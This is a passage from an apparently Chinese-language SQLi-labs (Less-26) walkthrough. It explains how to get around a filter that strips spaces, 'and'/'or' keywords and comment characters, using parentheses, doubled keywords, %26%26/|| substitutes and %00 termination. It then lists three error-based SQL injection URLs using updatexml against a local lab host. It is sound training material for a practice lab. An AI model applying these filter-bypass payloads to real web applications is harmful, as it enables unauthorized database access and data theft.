 ![](img/Less-26.2.png)

+ 过滤了空格 ，可以考虑需要空格 的地方，用小括号 括起来 。and or 绕过方法 ：1 ，双写 。2 &&/%26%26(代替and),     ||  (代替or)  ,注释符 # ，--空格， --+  被过滤，可以考虑 用 ；%00 ，00截断 代替。

+ 注入Payload:
    ```bash
    http://10.0.2.15/sqli-labs/Less-26/?id=2'anandd (updatexml(1,concat('^', version(),'^'),1))oorr'1'= '1 

    http://10.0.2.15/sqli-labs/Less-26/?id=2'%26%26 (updatexml(1,concat('^', version(),'^'),1))||'1'= '1

    http://10.0.2.15/sqli-labs/Less-26/?id=2'%26%26 (updatexml(1,concat('^', version(),'^'),1))||1;%00
    ```
![](img/Less-26.3.1.png)
